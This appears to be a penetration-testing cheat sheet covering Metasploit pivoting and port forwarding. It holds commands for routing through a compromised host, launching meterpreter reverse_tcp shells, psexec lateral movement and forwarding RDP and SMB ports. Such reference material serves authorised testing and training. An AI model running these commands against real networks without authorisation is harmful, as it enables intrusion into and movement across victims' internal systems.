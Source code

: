 ## Metasploit

#### Pivoting

{% embed url="https://www.offsec.com/metasploit-unleashed/pivoting/" %}
Pivoting
{% endembed %}

#### Port Forwarding

{% embed url="https://www.offsec.com/metasploit-unleashed/portfwd/" %}
Portfwd
{% endembed %}

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Metasploit

```bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

or

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

```bash
# Meterpreter list active port forwards
portfwd list 

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter delete all port forwards
portfwd flush 

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks4a

# Meterpreter list all active routes
run autoroute -p 

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
```